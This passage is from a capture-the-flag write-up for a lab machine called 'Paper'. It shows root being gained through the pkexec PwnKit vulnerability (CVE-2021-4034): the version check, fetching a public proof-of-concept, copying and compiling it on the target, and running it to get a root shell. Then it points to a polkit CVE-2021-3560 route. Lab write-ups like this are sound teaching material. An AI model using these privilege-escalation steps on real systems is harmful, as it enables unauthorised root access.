 Retrieving it's version we see it is vulnerable to the recent [CVE-2021-4034](https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt).

```
[dwight@paper ~]$ pkexec --version
pkexec version 0.115
```

We can use [this PoC](https://github.com/luijait/PwnKit-Exploit) to exploit pkexec and obtain root on the machine.
Since make is installed on the machine we clone the repo tar it up and scp it to the target as dwight.

```
$ git clone https://github.com/luijait/PwnKit-Exploit
Cloning into 'PwnKit-Exploit'...
remote: Enumerating objects: 224, done.
remote: Counting objects: 100% (224/224), done.
remote: Compressing objects: 100% (224/224), done.
remote: Total 224 (delta 119), reused 4 (delta 0), pack-reused 0
Receiving objects: 100% (224/224), 64.38 KiB | 4.29 MiB/s, done.
Resolving deltas: 100% (119/119), done.
$ tar -czf PwnKit-Exploit.tar.gz PwnKit-Exploit
$ scp ./PwnKit-Exploit.tar.gz dwight@office.paper:/tmp
dwight@office.paper's password:
PwnKit-Exploit.tar.gz                                                                                                                                                                                        100%   92KB 791.0KB/s   00:00
```

There we unpack the archive and "make" the binary.

```
[dwight@paper tmp]$ tar -xf PwnKit-Exploit.tar.gz
[dwight@paper tmp]$ cd PwnKit-Exploit/
[dwight@paper PwnKit-Exploit]$ make
cc -Wall    exploit.c   -o exploit
```

Running the exploit we get dropped into a root shell.

```
[dwight@paper PwnKit-Exploit]$ ./exploit
Current User before execute exploit
hacker@victim$whoami: dwight
Exploit written by @luijait (0x6c75696a616974)
[+] Enjoy your root if exploit was completed succesfully
[root@paper PwnKit-Exploit]# wc -c /root/root.txt
33 /root/root.txt
```

## Polkit

The actually intended solution to obtain root on the machine was to abuse polkit. Checking for the installed version we can see that it is vulnerable to [CVE-2021-3560](https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/).
